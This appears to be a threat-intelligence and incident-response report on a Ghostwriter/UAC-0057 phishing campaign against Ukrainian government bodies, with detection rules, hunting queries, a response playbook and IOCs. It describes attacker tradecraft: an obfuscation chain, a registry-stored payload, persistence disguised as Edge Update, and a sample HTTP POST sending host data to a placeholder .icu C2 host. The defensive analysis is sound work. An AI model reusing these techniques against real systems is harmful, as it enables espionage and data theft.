

# UAC-0057 / Ghostwriter — OYSTERFRESH JavaScript Loader and Registry-Persisted OYSTERBLUES Targeting Ukrainian Government via Prometheus Lures

## TL;DR

On 22 May 2026 CERT-UA published advisory CERT-UA#6315762 detailing an active spearphishing campaign that the Belarus-aligned threat cluster UAC-0057 (Ghostwriter / FrostyNeighbor / UNC1151) has been running against Ukrainian government organisations since the spring of 2026. The lures impersonate Prometheus, a widely used Ukrainian online learning platform that distributes professional and security-awareness certificates — a credible pretext for civil servants. The infection chain is deliberately quiet: PDF attachment → external link to a ZIP → a JavaScript file dubbed OYSTERFRESH executed by `wscript.exe`, which writes an encrypted second-stage (OYSTERBLUES) into the Windows Registry and chains a decoder (OYSTERSHUCK) plus a Run-key + scheduled task pair for persistence. OYSTERBLUES profiles the host (computer name, user, OS version, last boot time, running processes) and exfiltrates over HTTP POST to Cloudflare-fronted `.icu` infrastructure; on operator validation, the next eval()-executed JavaScript stage delivers a Cobalt Strike beacon. This is the second active UAC-0057 toolset disclosed inside eight days — ESET published the parallel FrostyNeighbor PicassoLoader + Cobalt Strike Ukrtelecom chain on 14 May 2026 — and it confirms the cluster's pattern of running multiple loader families in parallel against the same victim base to ensure operational survivability after detections land.

## Attribution and confidence

Ghostwriter is a long-running Belarus-aligned cyber-espionage and influence-operations cluster active since at least 2016, publicly linked to the Belarusian Ministry of Defense by Mandiant in November 2021. Trackers and aliases include UAC-0057 (CERT-UA), UNC1151 (Mandiant / Google TIG), FrostyNeighbor (ESET), PUSHCHA (Trend Micro), Storm-0257 (Microsoft), TA445 (Proofpoint), Umbral Bison (CrowdStrike, formerly RepeatingUmbra), and White Lynx. The OYSTERFRESH / OYSTERBLUES / OYSTERSHUCK toolset is attributed to UAC-0057 by CERT-UA on the basis of victimology (Ukrainian state apparatus), targeting tempo (continual since spring 2026), Cloudflare-fronted `.icu` C2 (consistent with prior UAC-0057 / FrostyNeighbor infrastructure habits), and parallel-campaign overlap with the May 14 ESET-disclosed FrostyNeighbor PicassoLoader chain.

Confidence in the cluster attribution is **high** — CERT-UA, ESET, Recorded Future / The Record, Bitdefender, SC Media and SOC Prime independently identify the same cluster against the same victim set during the same operational window. Confidence in the **state sponsor** (Belarus Ministry of Defense via Mandiant 2021 baseline) is **medium-high** — no new 2026 attribution work re-derives the state link from scratch, but no public reporting since has contradicted Mandiant's original assessment, and the targeting (Ukrainian gov, defense sector) is consistent with continuous Belarusian-state interests aligned with the Russian war effort.

| Track / vendor               | Cluster alias       | Notes                                                              |
| ---------------------------- | ------------------- | ------------------------------------------------------------------ |
| CERT-UA                      | UAC-0057            | Primary tracker; advisory #6315762 (22-May-2026)                   |
| Mandiant / Google TIG        | UNC1151             | State-link baseline (Nov 2021)                                     |
| ESET                         | FrostyNeighbor      | Parallel PicassoLoader campaign (14-May-2026)                      |
| Microsoft                    | Storm-0257          | Cross-referenced via Sentinel / Defender XDR rule packs            |
| Proofpoint                   | TA445               | Long-running phishing-cluster tracker                              |
| CrowdStrike                  | Umbral Bison        | Formerly RepeatingUmbra                                            |

Genealogy with previous repo cases: this is the first UAC-0057 / Ghostwriter / UNC1151 entry in the diary. The closest adjacent cases by tactic are Day 23 (Storm-2949 zero-CVE cloud identity intrusion) — same identity-as-perimeter theme but cloud control plane vs endpoint loader — and Day 14 (UAT-8302 China-nexus DLL side-loading against South American and European governments) — same APT-state-nation slot, different region of origin. By region and target this case anchors a new Belarus-Russia axis lane in `byActor/`.

## Kill chain — summary table

| Stage                       | MITRE                  | Detail                                                                                                  |
| --------------------------- | ---------------------- | ------------------------------------------------------------------------------------------------------- |
| Initial Access              | T1078.004, T1566.001   | Spearphishing from compromised Ukrainian gov mailbox; PDF attachment with external link                |
| Execution Guardrail         | T1480                  | Geofencing — benign PDF served if requester IP is not in Ukraine (parallel ESET chain)                  |
| User Execution              | T1204.002              | Victim opens ZIP and double-clicks the `.js` file (OYSTERFRESH)                                         |
| Script Execution            | T1059.007              | `wscript.exe` executes OYSTERFRESH JavaScript                                                            |
| Obfuscation / Decode        | T1027, T1140           | String reversal + ROT13 + URL-decoding to decode the embedded next stage                                |
| Defense Evasion             | T1112, T1027.013       | Encrypted OYSTERBLUES payload stored inside the Windows Registry rather than on disk                    |
| Persistence                 | T1547.001, T1053.005   | HKCU Run keys for `MicrosoftEdgeUpdate.exe` / `EdgeApp.exe` + scheduled task `MicrosoftEdgeUpdateTaskMachine` |
| Discovery                   | T1057, T1082, T1083    | Profile host: computer name, username, OS version, last boot, running processes                         |
| C2 + Exfil                  | T1071.001, T1041, T1568.002 | HTTP POST every 10 min to Cloudflare-fronted `.icu` domains; system profile in body                |
| Operator Triage             | (n/a)                  | Operator manually decides whether to send the next-stage Cobalt Strike payload                          |
| Post-exploitation           | T1219                  | Cobalt Strike beacon delivered via `eval()` of an inline JavaScript stager (CSBEACON DLL component)     |



The left lane traces the victim-side execution chain on a Ukrainian government endpoint — from the spearphished PDF through `wscript.exe` running OYSTERFRESH, the registry-persisted OYSTERBLUES, the OYSTERSHUCK decoder, persistence anchors and the final Cobalt Strike beacon. The right lane shows the attacker infrastructure cluster — the compromised state mailbox used to send, the Cloudflare-fronted `.icu` delivery + C2 surface, the operator-triage staging tier, and the Cobalt Strike team server. Detection anchors at the bottom map every Sigma, KQL, YARA and Suricata rule to the stage it instruments.

## Stage-by-stage detail

### 1. Initial Access — spearphishing from compromised gov mailbox

UAC-0057 sends the lure email from a previously compromised Ukrainian government mailbox, which is the cluster's preferred initial-access pattern over typosquat or commodity hosting because it bypasses SPF/DKIM/DMARC for the recipient domain and gives credible reply chains. The email body references Prometheus (`prometheus.org.ua`-style branding) and attaches a PDF that contains a clickable external link. CERT-UA notes that the same compromised account is also used to scrape the contact list and propagate the campaign — consistent with the June 2025 CERT Polska report on UNC1151's Roundcube CVE-2024-42009 credential-harvesting campaign that fed the compromised mailbox pipeline.

ATT&CK: **T1078.004 Valid Accounts: Cloud Accounts**, **T1566.001 Phishing: Spearphishing Attachment**.

### 2. Execution Guardrail — Ukraine-only geofencing

The companion FrostyNeighbor / PicassoLoader chain disclosed by ESET on 14 May 2026 uses an explicit Ukraine geofence: a non-Ukrainian source IP is served a benign PDF, while a Ukrainian IP receives the payloaded RAR. The Prometheus / OYSTERFRESH chain is consistent with this operational habit and analysts should assume the same logic is in effect at the delivery server. Sandbox runs from non-Ukrainian egress will appear false-negative; this is an investigation pitfall, not an evasion of the C2 stage.

ATT&CK: **T1480 Execution Guardrails**.

### 3. User Execution + wscript.exe — OYSTERFRESH

The ZIP archive contains a `.js` file (OYSTERFRESH). When the user double-clicks, Windows hands the file to `wscript.exe` (Windows Script Host), which executes the JavaScript. OYSTERFRESH displays a decoy document as a distraction (CERT-UA), then decodes the embedded next stage using string reversal + ROT13 + URL-decoding before writing the encrypted OYSTERBLUES blob into the registry and chaining OYSTERSHUCK.

```text
Parent     : explorer.exe
Process    : wscript.exe
CommandLine: "C:\Windows\System32\WScript.exe" "<temp>\<oysterfresh_filename>.js"
```

ATT&CK: **T1204.002 User Execution: Malicious File**, **T1059.007 Command and Scripting Interpreter: JavaScript**.

### 4. Obfuscation — string reversal + ROT13 + URL-decoding

The decode chain inside OYSTERFRESH is intentionally low-tech and stacked. CERT-UA documents three transforms applied in series:
- string reversal (`str.split('').reverse().join('')` in JS),
- ROT13 (alphabetic shift by 13),
- URL-decoding (`decodeURIComponent`).

The reason this matters is detection: each transform is trivial to invert but the stack defeats naïve string-match YARA against the `.js` on disk. Anchor YARA on the **chain of transforms** (the presence of `reverse()` + a ROT13 lookup table + `decodeURIComponent` in the same JS) instead of the final decoded payload.

ATT&CK: **T1027 Obfuscated Files or Information**, **T1140 Deobfuscate/Decode Files or Information**.

### 5. Registry-resident payload — OYSTERBLUES

This is the most defensively interesting trick: OYSTERBLUES is **not written to disk as an .exe or .dll**; it is stored as an encrypted blob inside the Windows Registry under the current user's hive. The decoder (OYSTERSHUCK) reads it back, decrypts it in memory and executes. From the EDR's vantage point there is no PE on disk for the persisted second stage — only a registry value containing a byte string. Defenders that hunt only on filesystem persistence will miss this; the anchor is **registry value size** (large, multi-KB) and **type** (REG_BINARY or REG_SZ with base64-looking content) under a non-standard subkey of `HKCU\Software\...`.

ATT&CK: **T1112 Modify Registry**, **T1027.013 Obfuscated Files or Information: Encrypted/Encoded File**.

### 6. Persistence — Run key + scheduled task masquerade

OYSTERSHUCK establishes persistence twice over for survivability:

```text
Registry: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
  Value : "MicrosoftEdgeUpdate"   →   <path>\MicrosoftEdgeUpdate.exe
  Value : "EdgeApp"                →   <path>\EdgeApp.exe

Scheduled Task:
  TaskName: MicrosoftEdgeUpdateTaskMachine
  Trigger : OnLogon (or periodic)
  Action  : wscript.exe <oystershuck_filename>.js
```

The naming is deliberate Microsoft-Edge-Update masquerade — Edge's legitimate updater uses `MicrosoftEdgeUpdate.exe` and a scheduled task literally named `MicrosoftEdgeUpdateTaskMachineCore` / `…UA`. The attacker's task name (`MicrosoftEdgeUpdateTaskMachine` without the `Core`/`UA` suffix) is the exact discriminator a hunter should anchor on, alongside the `wscript.exe` action which the genuine task never uses.

ATT&CK: **T1547.001 Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder**, **T1053.005 Scheduled Task/Job: Scheduled Task**.

### 7. Discovery — host profile

OYSTERBLUES collects a minimal but operationally useful host profile:

```text
- COMPUTERNAME      (env / GetComputerName)
- USERNAME          (env / GetUserName)
- OS version        (Win32_OperatingSystem.Caption / Version)
- Last boot time    (Win32_OperatingSystem.LastBootUpTime)
- Process list      (Get-Process / tasklist equivalent)
```

The profile is sent every ~10 minutes to the C2; the cadence matters because it gives the operator a steady stream on which to make the human go/no-go decision for the Cobalt Strike payload.

ATT&CK: **T1057 Process Discovery**, **T1082 System Information Discovery**, **T1083 File and Directory Discovery**.

### 8. C2 + Exfil — HTTP POST to Cloudflare-fronted .icu

The C2 channel is a plain HTTP POST request with the JSON-ish profile body to a Cloudflare-fronted `.icu` domain. The choice of `.icu` is intentional — UAC-0057 has used `.icu` heavily across years of campaigns; the TLD itself is statistically rare in legitimate Ukrainian gov outbound traffic, making `.icu` per-domain reputation a viable secondary anchor when the specific FQDN is unknown.

```text
POST /api/<endpoint> HTTP/1.1
Host: <random>.icu
Content-Type: application/json
User-Agent: Mozilla/5.0 ...
Body   : {"hostname":"...","user":"...","os":"...","boot":"...","procs":[...]}
```

ATT&CK: **T1071.001 Application Layer Protocol: Web Protocols**, **T1041 Exfiltration Over C2 Channel**, **T1568.002 Dynamic Resolution: Domain Generation Algorithms** (loose — UAC-0057 rotates domains regularly, not strictly DGA), **T1090.004 Proxy: Domain Fronting** (Cloudflare CDN).

### 9. Post-exploitation — Cobalt Strike via eval()

When the operator decides the victim is interesting, the C2 returns a JavaScript blob that OYSTERBLUES passes through `eval()`. The blob loads a Cobalt Strike beacon, named by SOC Prime as the `CSBEACON` DLL component. From this point onward the activity is standard Cobalt Strike post-exploitation tradecraft — beacon stage, sleep / jitter, named pipe internal-network pivot, mimikatz / Rubeus credentials, Lateral Movement via SMB or WMI. Anchor on Cobalt Strike's well-known network anchors (beacon pattern, named-pipe `\\.\pipe\msagent_<hex>`, default malleable C2 profile leftovers).

ATT&CK: **T1219 Remote Access Software**, plus standard Cobalt Strike post-exploitation chain (T1055, T1003.001, T1021.002, etc.).

## Detection strategy

### Telemetry that matters

- **Sysmon EID 1** (process creation) — `wscript.exe` parent → `.js` argument; new `MicrosoftEdgeUpdate.exe` / `EdgeApp.exe` executions outside of the genuine Edge install path.
- **Sysmon EID 11** (file create) — `.js` file written under `%TEMP%` / `%APPDATA%` originating from a ZIP extraction.
- **Sysmon EID 12 / 13** (registry create/set) — values under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` referencing the `MicrosoftEdgeUpdate` / `EdgeApp` masquerade; abnormally large `REG_SZ` / `REG_BINARY` values under non-standard `HKCU\Software\` keys (OYSTERBLUES blob).
- **Sysmon EID 22** (DNS) — outbound resolution of `*.icu` from a managed Windows endpoint that is not part of a known business workflow.
- **Sysmon EID 3** (network connect) — HTTP POST to `*.icu` from `wscript.exe` (or its child process), especially with a regular ~10-minute cadence.
- **Defender XDR / Sentinel tables** — `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceRegistryEvents`, `DeviceNetworkEvents`, `EmailEvents` (Prometheus subject anchors), `DeviceImageLoadEvents` (CSBEACON DLL load).
- **Email gateway / Exchange Online** — message-trace for inbound mail from compromised Ukrainian gov tenants with a PDF attachment + external URL.
- **Windows Event Log** — Security 4698/4702 (scheduled task created/modified) for `MicrosoftEdgeUpdateTaskMachine` without the genuine `Core` / `UA` suffix.

### Detection coverage

| Engine    | File                                                                                          | Logic                                                                                                          |
| --------- | --------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------- |
| Sigma     | [`sigma/uac0057_wscript_js_from_archive.yml`](./sigma/uac0057_wscript_js_from_archive.yml)    | `wscript.exe` executing a `.js` extracted from a ZIP/RAR archive in user temp / desktop paths.                 |
| Sigma     | [`sigma/uac0057_edge_update_masquerade_runkey.yml`](./sigma/uac0057_edge_update_masquerade_runkey.yml) | HKCU Run key value `MicrosoftEdgeUpdate` / `EdgeApp` pointing to a path that is NOT the genuine Edge installer. |
| Sigma     | [`sigma/uac0057_scheduled_task_edge_update_masquerade.yml`](./sigma/uac0057_scheduled_task_edge_update_masquerade.yml) | Scheduled task named `MicrosoftEdgeUpdateTaskMachine` (without `Core`/`UA` suffix) whose action launches `wscript.exe`. |
| KQL       | [`kql/uac0057_wscript_js_from_archive_post_to_icu.kql`](./kql/uac0057_wscript_js_from_archive_post_to_icu.kql) | Defender XDR — `wscript.exe` child of `explorer.exe` running a `.js` followed within 5 min by HTTP POST to `*.icu`. |
| KQL       | [`kql/uac0057_run_key_edge_masquerade.kql`](./kql/uac0057_run_key_edge_masquerade.kql)        | Defender XDR — `DeviceRegistryEvents` HKCU Run value matching `MicrosoftEdgeUpdate` / `EdgeApp` with non-Edge path. |
| KQL       | [`kql/uac0057_icu_dns_post_correlation.kql`](./kql/uac0057_icu_dns_post_correlation.kql)      | Defender XDR — DNS query to `*.icu` with same-host HTTP POST follow-up within 60s.                              |
| YARA      | [`yara/uac0057_oysterfresh_js_loader.yar`](./yara/uac0057_oysterfresh_js_loader.yar)          | OYSTERFRESH JS — anchors on the stacked-transform chain (`reverse()` + ROT13 table + `decodeURIComponent`) and `.icu` strings. |
| Suricata  | [`suricata/uac0057_icu_c2.rules`](./suricata/uac0057_icu_c2.rules)                            | DNS + TLS SNI + HTTP host + HTTP POST anchors against the `.icu` C2 surface (5 SIDs).                           |

### Threat hunting hypotheses

- **H1** — Any managed Windows endpoint has executed `wscript.exe` with a `.js` argument originating from `%TEMP%\<archive>` / `%USERPROFILE%\Downloads\<archive>` in the last 90 days. See [`hunts/peak_h1_wscript_js_from_archive.md`](./hunts/peak_h1_wscript_js_from_archive.md).
- **H2** — Any host has a HKCU Run key under the name `MicrosoftEdgeUpdate` or `EdgeApp` whose target path is NOT inside the genuine Edge install (`C:\Program Files (x86)\Microsoft\EdgeUpdate\…`). See [`hunts/peak_h2_edge_update_masquerade_runkey.md`](./hunts/peak_h2_edge_update_masquerade_runkey.md).
- **H3** — Any host has an outbound HTTP POST to a `.icu` FQDN with a ~10-minute cadence over a sustained window (≥ 3 successive intervals). See [`hunts/peak_h3_icu_post_cadence.md`](./hunts/peak_h3_icu_post_cadence.md).

## Incident response playbook

### First 60 minutes (triage)

1. **Identify the originating mailbox**. From Exchange Online / O365 message trace, pull every recipient of the lure for the past 14 days; the sender is a compromised Ukrainian gov account or partner-tenant account.
2. **Identify executions**. Hunt Defender XDR / Sysmon for `wscript.exe` child of `explorer.exe` with a `.js` argument from `%TEMP%` / Desktop / Downloads in the same 14-day window per recipient.
3. **For every match: snapshot RAM** before any reboot. OYSTERBLUES decrypts in memory; the cleartext blob and Cobalt Strike beacon (if delivered) only live in RAM. Use `winpmem`, `magnet ram capture`, or DumpIt.
4. **Isolate the host at network layer** (EDR isolate or 802.1x quarantine VLAN). Do NOT shut down — see step 3.
5. **Pull the persistence anchors**: HKCU Run keys, scheduled tasks named `MicrosoftEdgeUpdateTaskMachine` (without `Core`/`UA`), AppData/Roaming folders containing `MicrosoftEdgeUpdate.exe` or `EdgeApp.exe` outside the genuine Edge tree.
6. **Block the .icu FQDN and the Cloudflare IP range** carrying the C2 at perimeter and DNS sinkhole; the IPs rotate so anchor at the FQDN level if you have it, otherwise at the `.icu` TLD plus the Cloudflare ASN combination.
7. **Search for Cobalt Strike** — Sysmon EID 7 image load of `CSBEACON`-style DLLs, named-pipe creation matching `\\.\pipe\msagent_<hex>`, beacon-pattern TLS sessions.
8. **Reset the originating mailbox** — revoke refresh tokens, force MFA re-enrolment, audit mailbox rules and OAuth grants, examine the contact list for downstream phishing destinations.

### Artifacts to collect

| Artifact                       | Path                                                                                                  | Tool                                | Why it matters                                                  |
| ------------------------------ | ----------------------------------------------------------------------------------------------------- | ----------------------------------- | --------------------------------------------------------------- |
| Memory image                   | `<host>.raw`                                                                                          | winpmem / Magnet RAM Capture        | OYSTERBLUES cleartext + Cobalt Strike beacon live only in RAM   |
| OYSTERFRESH JS                 | `%TEMP%\*.js`, `%USERPROFILE%\Downloads\*.zip`                                                        | KAPE / file copy                    | YARA target; encoded next-stage embedded                        |
| OYSTERBLUES registry blob      | `HKCU\Software\*` (large REG_BINARY / REG_SZ values)                                                  | reg.exe export / RegRipper          | The encrypted second-stage payload                              |
| Persistence Run keys           | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` (values `MicrosoftEdgeUpdate`, `EdgeApp`)         | reg.exe / Autoruns                  | Survivability anchor #1                                         |
| Scheduled task                 | `C:\Windows\System32\Tasks\MicrosoftEdgeUpdateTaskMachine` (without `Core`/`UA` suffix)               | schtasks /query /xml / Autoruns     | Survivability anchor #2                                         |
| Email gateway message-trace    | Exchange Online message trace, ESA logs                                                                | M365 admin / SES                    | Map the originating compromised mailbox + recipient list        |
| Defender XDR DeviceProcessEvents | `DeviceProcessEvents` table                                                                          | KQL                                 | Reconstruct execution tree                                       |
| Defender XDR DeviceNetworkEvents | `DeviceNetworkEvents` table                                                                          | KQL                                 | `.icu` C2 cadence                                                |
| MFT + USN journal              | `\\.\C:\$MFT`, `\\.\C:\$Extend\$UsnJrnl`                                                              | KAPE / MFTECmd                      | Reconstruct file creation timeline of the ZIP/JS                |
| Prefetch                       | `C:\Windows\Prefetch\WSCRIPT.EXE-*.pf`                                                                | PECmd                               | Confirm `wscript.exe` execution timestamp                       |
| Event Log Security 4698/4702   | `C:\Windows\System32\winevt\Logs\Security.evtx`                                                       | EvtxECmd                            | Scheduled task creation / modification audit trail              |

### IR queries and commands

```powershell
# 1. Suspicious wscript.exe + .js in last 30 days
Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; Id=1; StartTime=(Get-Date).AddDays(-30)} `
  | Where-Object { $_.Message -match "wscript\.exe" -and $_.Message -match "\.js" } `
  | Select-Object TimeCreated, @{n="CmdLine"; e={ ($_.Message -split "`n" | Where-Object { $_ -match "CommandLine:" }) -join "" }}

# 2. Edge-update masquerade Run keys
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
  | Get-Member -MemberType NoteProperty `
  | Where-Object { $_.Name -match "Edge" } `
  | ForEach-Object { "$($_.Name) = $((Get-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run').$($_.Name))" }

# 3. Scheduled task masquerade
schtasks /Query /FO LIST /V | Select-String -Pattern "MicrosoftEdgeUpdateTaskMachine"

# 4. Find large registry values under HKCU\Software (OYSTERBLUES candidate)
Get-ChildItem -Path "HKCU:\Software" -Recurse -ErrorAction SilentlyContinue `
  | ForEach-Object {
      $key = $_
      $key.GetValueNames() | ForEach-Object {
          $val = $key.GetValue($_)
          if ($val -is [string] -and $val.Length -gt 4096) {
              [PSCustomObject]@{ Path=$key.Name; Name=$_; Length=$val.Length }
          } elseif ($val -is [byte[]] -and $val.Length -gt 4096) {
              [PSCustomObject]@{ Path=$key.Name; Name=$_; Length=$val.Length }
          }
      }
  } | Sort-Object Length -Descending | Select-Object -First 20
```

```bash
# Linux DNS resolver (BIND / unbound) — recent .icu queries from corporate ranges
grep -E "query: [^ ]+\.icu " /var/log/named/query.log* \
  | awk '{print $1, $2, $3, $6}' \
  | sort | uniq -c | sort -nr | head -30

# Email gateway — search for PDF attachments referencing Prometheus
zgrep -Ei "prometheus[^a-z]|prometheus\.org\.ua" /var/log/mail/inbound*.log \
  | grep -Ei "\.pdf" \
  | awk '{print $1, $2, $3, $7}' | head
```

```kql
// Defender XDR — wscript.exe child of explorer.exe with .js arg in last 30d
DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName =~ "wscript.exe"
| where InitiatingProcessFileName =~ "explorer.exe"
| where ProcessCommandLine matches regex @"(?i)\.js(\s|$|"")"
| project Timestamp, DeviceName, AccountUpn, ProcessCommandLine, InitiatingProcessCommandLine
| order by Timestamp desc
```

### Containment, eradication, recovery

**Exit criteria (must all hold to call the host clean):**
- No `wscript.exe` running with a `.js` argument from user-writable paths.
- HKCU Run keys `MicrosoftEdgeUpdate` / `EdgeApp` removed; values audited.
- Scheduled task `MicrosoftEdgeUpdateTaskMachine` (without `Core`/`UA`) deleted.
- All abnormally large `HKCU\Software\*` registry values reviewed and removed if confirmed OYSTERBLUES.
- No outbound `.icu` traffic from the host for ≥ 7 days.
- AV scan with up-to-date signatures returns clean on the full `%USERPROFILE%` tree and Edge install path.
- Memory analysis (Volatility / Velociraptor) shows no Cobalt Strike-style sleep mask, named pipe, or beacon stager.

**What NOT to do:**
- Do **not** reboot before RAM capture. OYSTERBLUES decrypted form and the Cobalt Strike beacon live only in RAM.
- Do **not** delete the registry blob before exporting it for IR forensics — it is the encrypted second-stage; preserve it for malware analysis.
- Do **not** sinkhole the C2 domain from the corporate DNS resolver in the same network where the host still has internet egress — the operator detects the failure mode and rotates infra; isolate the host first.
- Do **not** assume sandbox false-negatives mean the email is benign — the chain is Ukraine-geofenced; non-Ukrainian egress will not be served the malicious payload.
- Do **not** treat the originating mailbox as a "victim only"; treat it as a compromised account requiring full identity recovery (token revoke, MFA re-enrol, mailbox-rule audit, OAuth grant audit).

### Recovery validation

- The compromised originating mailbox has had all refresh tokens revoked, MFA re-enrolled, mailbox rules audited and any unfamiliar OAuth grant revoked; the contact list has been scoped for downstream phishing recipients.
- Detection rules from `sigma/`, `kql/`, `yara/`, and `suricata/` are deployed in the SIEM / EDR / IDS, and have been validated against a non-production replay of the OYSTERFRESH JS sample.
- A 90-day retroactive hunt against `wscript.exe` + `.js` from archive and HKCU Run-key masquerade has run cleanly with no additional finds.
- DNS resolver logs forward `.icu` queries from corporate ranges to the SIEM (anchor for the next campaign rotation).
- A scheduled review for any future variant lands on the SOC on-call calendar in 30 days — UAC-0057 historically rotates loader filenames and registry paths weekly.

## IOCs

| Type   | Value                                                                            | Context                                                                       | Confidence | Source                  |
| ------ | -------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- | ---------- | ----------------------- |
| string | `OYSTERFRESH`                                                                    | First-stage JavaScript loader filename family                                 | high       | CERT-UA#6315762         |
| string | `OYSTERBLUES`                                                                    | Registry-resident encrypted payload family                                    | high       | CERT-UA#6315762         |
| string | `OYSTERSHUCK`                                                                    | In-memory decoder for OYSTERBLUES                                             | high       | CERT-UA#6315762         |
| string | `CSBEACON`                                                                       | Cobalt Strike DLL component name referenced by SOC Prime detections           | high       | SOC Prime               |
| regkey | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MicrosoftEdgeUpdate`         | Persistence anchor — Run key masquerade                                       | high       | CERT-UA#6315762         |
| regkey | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\EdgeApp`                     | Persistence anchor — Run key masquerade                                       | high       | CERT-UA#6315762         |
| path   | `C:\Windows\System32\Tasks\MicrosoftEdgeUpdateTaskMachine`                       | Scheduled task masquerade (genuine task has `Core`/`UA` suffix)               | high       | CERT-UA#6315762         |
| path   | `MicrosoftEdgeUpdate.exe`                                                        | Persistence binary masquerade                                                 | high       | CERT-UA#6315762         |
| path   | `EdgeApp.exe`                                                                    | Persistence binary masquerade                                                 | high       | CERT-UA#6315762         |
| string | `.icu`                                                                           | C2 TLD heavily reused by UAC-0057 across multiple campaigns                   | medium     | CERT-UA + ESET 2024-2026 |
| string | `wscript.exe <name>.js`                                                          | Execution anchor — Windows Script Host running JS dropped from a ZIP archive   | high       | CERT-UA#6315762         |
| string | `prometheus`                                                                     | Lure brand impersonation in subject / attachment names                        | high       | CERT-UA#6315762         |
| string | `eval(`                                                                          | JavaScript eval()-based Cobalt Strike loader transition                       | high       | CERT-UA#6315762         |
| string | `Ukrtelecom`                                                                     | Lure brand impersonation in parallel FrostyNeighbor PicassoLoader campaign     | high       | ESET 2026-05-14         |
| cve    | CVE-2024-42009                                                                   | Roundcube XSS exploited in prior UNC1151 mailbox-compromise feeder campaign    | medium     | CERT Polska 2025-06     |

Full IOC list (with all explanatory notes and ASN/TLD anchors) is in [`iocs.csv`](./iocs.csv). Hash IOCs are **deliberately not invented** — CERT-UA's official advisory enumerates them and SOC Prime publishes SHA1/SHA256/MD5 lists behind their TDM gate. Pull the authoritative hashes from CERT-UA's advisory itself when you operationalise this case in your SIEM; reach out to SOC Prime via free TDM signup if you need pre-built IOC detection bundles.

## Secondary findings

- **ESET FrostyNeighbor PicassoLoader + Cobalt Strike — Ukrtelecom-themed PDF phishing with Ukraine geofencing, disclosed 14-May-2026.** Same UAC-0057 / UNC1151 cluster, different loader family (PicassoLoader instead of OYSTERFRESH), same downstream Cobalt Strike payload, same Ukraine-only geofence operational habit. Together with the CERT-UA OYSTERFRESH chain this is the cluster running two distinct loader families in parallel against the same victim set, which is a deliberate detection-survivability strategy. ESET note that the operator validates each victim manually with a 10-minute heartbeat before deciding to push Cobalt Strike, matching the CERT-UA description of OYSTERBLUES exactly. ([ESET WeLiveSecurity blog](https://www.welivesecurity.com/en/eset-research/frostyneighbor-fresh-mischief-digital-shenanigans/))
- **Gamaredon GammaDrop + GammaLoad via WinRAR CVE-2025-8088 against Ukrainian state since September 2025 (HarfangLab).** Russia-affiliated Gamaredon cluster (G0047) running a parallel spearphishing campaign vs Ukrainian government with RAR archives that exploit the WinRAR path-traversal flaw to drop VBScript downloaders. Not the same loader family as UAC-0057, but the same victim set, same operational tempo, and same archive-as-delivery primitive — together they form the canonical FSB/GRU + Belarus-MoD pair attacking Ukrainian gov in mid-2026. ([The Hacker News + HarfangLab](https://harfanglab.io/insidethelab/gamaredon-gammadrop-gammaload/))
- **Kaspersky reports overlap between pro-Ukraine hacktivist BO Team / Black Owl and Head Mare / PhantomCore against Russian organisations in Q1 2026, including a new Go-based ZeroSSH backdoor (cmd.exe + reverse-SSH).** This is the mirror-image side of the same Ukraine-Russia cyber theatre and a reminder that the directional pressure runs both ways. 20 Russian orgs hit in Q1 2026; Hive0117 separately extracted ~14M rubles via accountant-PC banking trojan DarkWatchman between Feb-Mar 2026. ([Kaspersky Securelist](https://securelist.ru/tr/boteam-campaign-zeronetkit-headmare/115429/))

## Pedagogical anchors

- **Registry-resident encrypted payloads (T1027.013 + T1112) are the cleanest way to defeat disk-based detection in 2026.** OYSTERBLUES has no PE on disk for the persisted second stage — the only file artefact is the small OYSTERSHUCK decoder JS. Anchor hunts on registry **value size** under `HKCU\Software\*` (abnormally large `REG_SZ` / `REG_BINARY`), not on filesystem hashes.
